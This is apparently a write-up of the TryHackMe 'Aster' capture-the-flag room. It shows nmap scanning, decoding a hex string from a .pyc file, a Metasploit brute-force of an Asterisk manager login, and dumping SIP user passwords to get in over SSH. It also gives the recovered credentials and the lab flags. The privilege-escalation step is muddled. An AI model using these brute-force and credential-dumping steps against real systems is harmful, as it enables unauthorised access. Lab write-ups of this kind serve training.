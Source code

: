 > Aster 

export IP=10.10.100.77

# Nmap

sudo nmap -A -sC -sV -T4 -vv -Pn -p- -O -oN nmap/initial $IP

```
22/tcp   open  ssh         syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        syn-ack Apache httpd 2.4.18 ((Ubuntu))
1720/tcp open  h323q931?   syn-ack
2000/tcp open  cisco-sccp? syn-ack
```

We have a .pyc file at port 80 and we can convert it to python file using `uncompyle6 output.pyc > output.py`. And now inspecting the program it is not malicious just uses pyfiglet to print out text. We have some encoded text there on changing the program a bit we have the text.

```
import pyfiglet
oO00oOo = '476f6f64206a6f622c2075736572202261646d696e2220746865206f70656e20736f75726365206672616d65776f726b20666f72206275696c64696e6720636f6d6d756e69636174696f6e732c20696e7374616c6c656420696e20746865207365727665722e'
OOOo0 = bytes.fromhex(oO00oOo)
Oooo000o = OOOo0.decode('ASCII')
print(Oooo000o)
Oo = '476f6f64206a6f622072657665727365722c20707974686f6e206973207665727920636f6f6c21476f6f64206a6f622072657665727365722c20707974686f6e206973207665727920636f6f6c21476f6f64206a6f622072657665727365722c20707974686f6e206973207665727920636f6f6c21'
I1Ii11I1Ii1i = bytes.fromhex(Oo)
Ooo = I1Ii11I1Ii1i.decode('ASCII')
print(Ooo)
```

Or we can just take the encrypted text and put it in cyberchef then decode as hex.

## Output

```
Good job, user "admin" the open source framework for building communications, installed in the server.
Good job reverser, python is very cool!Good job reverser, python is very cool!Good job reverser, python is very cool!
```

I found an exploit in metasploit for asterisk.

# Metasploit

```
sudo msfconsole
use auxiliary/voip/asterisk_login
show options
set username admin
set rhosts $IP
set stop_on_success true
run
```

And we have a hit!!

`[+] 10.10.100.77:5038     - User: "admin" using pass: "abc123" - can login on 10.10.100.77:5038!`

And we can connect through telnet but we have specific syntax.

```
action: login
username:admin
secret: abc123
```

## Listing the users 

`action:command
command: sip show users`

# Output

```
Output: Username                   Secret           Accountcode      Def.Context      ACL  Forcerport
Output: 100                        100                               test             No   No        
Output: 101                        101                               test             No   No        
Output: harry                      p4ss#w0rd!#                       test             No   No
```

Let's try SSH using harry. Yep! we are in!

# user.txt

```
thm{bas1c_aster1ck_explotat1on}
```

# Privilege Escalation

Now we have `Example_Root.jar`. Let's change it to our system using python server. Now uploading this in an online decompiler `http://www.javadecompilers.com` we see the code. We just ahve to decode the file.

In attacking machine run

```
java -jar Example_Root.jar
```

Now we have root.txt

# root.txt

```
thm{fa1l_revers1ng_java}
```